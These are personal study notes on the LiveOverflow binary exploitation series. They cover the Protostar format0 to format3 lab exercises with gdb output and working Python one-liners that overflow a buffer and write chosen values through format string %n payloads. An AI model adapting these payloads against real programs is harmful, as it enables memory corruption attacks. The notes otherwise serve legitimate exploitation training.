

# LiveOverflow Binary Exploitation / Memory Corruption

### 0x10 Reversing C programs in 64bit vs 32 bit

Interesting walkthrough done on reversing executables in 64bit and 32bit while observing the differences and similarities in terms of the assembly code

### Format0

- Structure of stack (typically)

    

- We can assume/RE and come to a conclusion that the buffer allocated in the stack comes before the

    ```
    (gdb) print &target
    $1 = (volatile int *) 0xbffffc9c
    (gdb) print &buffer
    $2 = (char (*)[64]) 0xbffffc5c
    ```

- printf outputs to stdout while sprintf outputs to a variable. Both equally vulnerable to format string attacks

- All we need to do is to overflow the buffer by sending a string of 64 chars + 0xdeadbeef

- We can optionally use a formatted string %64d instead of literally printing 64 chars to fill the buffer before overflowing to the target variable

- Answer:

    `/opt/protostar/bin/format0 $(python -c "print '%64d\xef\xbe\xad\xde'")`

    `/opt/protostar/bin/format0 $(python -c "print 'A'*64+'\xef\xbe\xad\xde'")`

### 0x11 Format String Exploit using Format1 Exercise

- Fundamentals:

    1. Format Strings allows you to specify variables as format paameters within the string itself.

    2. In the C language, if you use a format string without specifying format parameters, the compiler will take format parameters from memory, resulting in a format string attack which is essentially a memory leakage (similar to HeartBleed vulnerability)

    3. All we need to do is to print enough format parameters till we can find the location of our supplied parameters on the stack. Then, use the %n to write to the correct memory location

    4. We can use the following to get the memory location of variables (run the program and add a breakpoint):

        ```
        (gdb) whatis target
        type = int
        (gdb) info address target
        Symbol "target" is static storage at address 0x8049638.
        (gdb) x 0x8049638
        0x8049638 <target>:	0x00000000
        (gdb) print &target
        $3 = (int *) 0x80496f4
        (gdb) x/wx 0x80496f4
        0x80496f4 <target>:	0x00000000
        ```

        `objdump -t BINARY`

- Answer:

    CLI Version: `/opt/protostar/bin/format1 "$(python -c "import struct; print('AAAAAAAAAAAAAAAAAAAAAA' + struct.pack('I',0x8049638) + 'BB' + '%x_'*135 + '__%n')")"`

    GDB Version: `(gdb) r $(python -c "import struct; print('AAAAAAAAAAAAAAAAAAAAAA' + struct.pack('I',0x8049638) + 'BB' + '%x_'*136 + '______%n')")`

### Format2

- Same idea as format1, just that now we need to set a particular value to target

- For a given `%4$08n` format string, what the compiler will do is that it will directly access the 4th parameter on stack with "4$" and write the address (\xe4\x96\x04\x08) there with "%08n"

- Answer

    METHOD 1: `python -c "import struct;print('AAAA'+struct.pack('I', 0x080496e4)+'BBBBBBBBBBBBBBBBBBBBB'+'%x__'*4 + '%n')" | /opt/protostar/bin/format2`

    METHOD 2: `python -c 'print "\xe4\x96\x04\x08" + "%60d" + "%4$n"' | /opt/protostar/bin/format2`

### Format3

- Same idea as format2 but we can't do it using method 1 as the value to write to memory is too huge

- Have to use method 2, but there's actually 3 different ways to do it:

    1. 4byte

        - No difference from method 2

        - `python -c 'print "\xf4\x96\x04\x08" + "%16930112x" + "%12$n"' | /opt/protostar/bin/format3`

        - Use gdb to calculate offset `(gdb) print 0x01025544 - 0x04`

    2. 2byte

        - Did not really understand the method that they used:

            `python -c 'print "\xf4\x96\x04\x08" + "\xf6\x96\x04\x08" + "%250x%13$hn" + "%21570x%12$hn"' | /opt/protostar/bin/format3`

        - Improvised from 1byte method

            `python -c 'print "\xf4\x96\x04\x08" + "\xf6\x96\x04\x08" + "%21820x%12$n" + "%43966x%13$n" ' | /opt/protostar/bin/format3`

        - Workings

            ```
            0x(0008)[0008]
            0x0102|5544|
            
            (gdb) print |0x5544| - [0x8]
            $11 = 21820
            
            0x{5544}5544 -> answer
            
            (gdb) print 0x#10#102 - {0x5544} -> ## added cause its negative
            $16 = 43966
            ```

    3. 1byte

        - `python -c 'print "\xf4\x96\x04\x08" + "\xf5\x96\x04\x08" + "\xf6\x96\x04\x08" + "\xf7\x96\x04\x08" + "%52x%12$n" + "%17x%13$n" + "%173x%14$n" + "%255x%15$n"' | /opt/protostar/bin/format3`

### SSH problem fix (no matching host key type found)

ssh -oHostKeyAlgorithms=+ssh-dss XXX@XXX.XXX.XXX.XXX

### References

https://infosecwriteups.com/expdev-exploit-exercise-protostar-format-2-73ef08011a8c

https://infosecwriteups.com/expdev-exploit-exercise-protostar-format-3-33e8d8f1e83

https://stackoverflow.com/questions/4462915/find-the-exact-address-of-variable-buf

https://darkdust.net/files/GDB%20Cheat%20Sheet.pdf

https://askubuntu.com/questions/836048/ssh-returns-no-matching-host-key-type-found-their-offer-ssh-dss

https://askubuntu.com/questions/1222835/lubuntu-18-04-cant-ssh-to-cisco-router-no-matching-key-exchange-method-found?rq=1
